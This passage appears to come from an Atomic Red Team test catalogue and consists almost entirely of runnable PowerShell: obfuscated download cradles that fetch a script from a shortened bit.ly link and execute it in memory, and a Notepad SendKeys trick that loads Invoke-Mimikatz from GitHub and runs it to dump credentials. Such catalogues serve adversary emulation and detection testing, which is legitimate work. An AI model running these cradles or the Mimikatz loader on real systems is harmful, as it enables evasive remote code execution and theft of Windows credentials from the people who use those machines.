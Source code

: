 **Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| bloodurl | BloodHound URL | url | https://raw.githubusercontent.com/BloodHoundAD/BloodHound/master/Ingestors/BloodHound_Old.ps1|

#### Run it with `powershell`!
```
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');IEX((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_})))
(New-Object Net.WebClient).DownloadFile('http://bit.ly/L3g1tCrad1e','Default_File_Path.ps1');[ScriptBlock]::Create((-Join([IO.File]::ReadAllBytes('Default_File_Path.ps1')|ForEach-Object{[Char]$_}))).InvokeReturnAsIs()
Set-Variable HJ1 'http://bit.ly/L3g1tCrad1e';SI Variable:/0W 'Net.WebClient';Set-Item Variable:\gH 'Default_File_Path.ps1';ls _-*;Set-Variable igZ (.$ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand.PsObject.Methods|?{$_.Name-like'*Cm*t'}).Name).Invoke($ExecutionContext.InvokeCommand.(($ExecutionContext.InvokeCommand|GM|?{$_.Name-like'*om*e'}).Name).Invoke('*w-*ct',$TRUE,1))(Get-ChildItem Variable:0W).Value);Set-Variable J ((((Get-Variable igZ -ValueOn)|GM)|?{$_.Name-like'*w*i*le'}).Name);(Get-Variable igZ -ValueOn).((ChildItem Variable:J).Value).Invoke((Get-Item Variable:/HJ1).Value,(GV gH).Value);&( ''.IsNormalized.ToString()[13,15,48]-Join'')(-Join([Char[]](CAT -Enco 3 (GV gH).Value)))
```
<br/>
<br/>

## Atomic Test #4 - Mimikatz - Cradlecraft PsSendKeys
Run mimikatz via PsSendKeys

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
$url='https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1';$wshell=New-Object -ComObject WScript.Shell;$reg='HKCU:\Software\Microsoft\Notepad';$app='Notepad';$props=(Get-ItemProperty $reg);[Void][System.Reflection.Assembly]::LoadWithPartialName('System.Windows.Forms');@(@('iWindowPosY',([String]([System.Windows.Forms.Screen]::AllScreens)).Split('}')[0].Split('=')[5]),@('StatusBar',0))|ForEach{SP $reg (Item Variable:_).Value[0] (Variable _).Value[1]};$curpid=$wshell.Exec($app).ProcessID;While(!($title=GPS|?{(Item Variable:_).Value.id-ieq$curpid}|ForEach{(Variable _).Value.MainWindowTitle})){Start-Sleep -Milliseconds 500};While(!$wshell.AppActivate($title)){Start-Sleep -Milliseconds 500};$wshell.SendKeys('^o');Start-Sleep -Milliseconds 500;@($url,(' '*1000),'~')|ForEach{$wshell.SendKeys((Variable _).Value)};$res=$Null;While($res.Length -lt 2){[Windows.Forms.Clipboard]::Clear();@('^a','^c')|ForEach{$wshell.SendKeys((Item Variable:_).Value)};Start-Sleep -Milliseconds 500;$res=([Windows.Forms.Clipboard]::GetText())};[Windows.Forms.Clipboard]::Clear();@('%f','x')|ForEach{$wshell.SendKeys((Variable _).Value)};If(GPS|?{(Item Variable:_).Value.id-ieq$curpid}){@('{TAB}','~')|ForEach{$wshell.SendKeys((Item Variable:_).Value)}};@('iWindowPosDY','iWindowPosDX','iWindowPosY','iWindowPosX','StatusBar')|ForEach{SP $reg (Item Variable:_).Value $props.((Variable _).Value)};IEX($res);invoke-mimikatz -dumpcr
```
<br/>
<br/>
